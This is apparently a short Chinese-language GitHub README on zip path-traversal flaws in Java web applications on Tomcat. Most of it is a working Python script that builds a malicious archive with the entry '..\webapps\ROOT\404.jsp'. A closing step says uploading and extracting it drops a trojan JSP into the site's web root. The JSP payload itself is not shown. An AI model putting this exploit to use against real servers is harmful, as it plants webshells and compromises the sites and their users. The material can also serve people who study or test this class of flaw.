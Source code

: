 # Java-Compressed-file-security java web 压缩文件 安全 漏洞

![](./zip.png)

测试环境：
```
Windows For Apache Tomcat/8.5.16
```

## 0x01 制作目录穿越-恶意压缩文件

代码：

```
#coding=utf-8

import zipfile  
import sys

if __name__ == "__main__":  
    try:
        with open("404.jsp", "r") as f:
            binary = f.read()
            zipFile = zipfile.ZipFile("test.zip", "a", zipfile.ZIP_DEFLATED)
            info = zipfile.ZipInfo("test.zip")
            zipFile.writestr("..\\webapps\\ROOT\\404.jsp", binary)
            zipFile.close()
    except IOError as e:
        raise e

```

## 0x02 文件上传，点击解压缩，木马文件解压到网站webapps目录



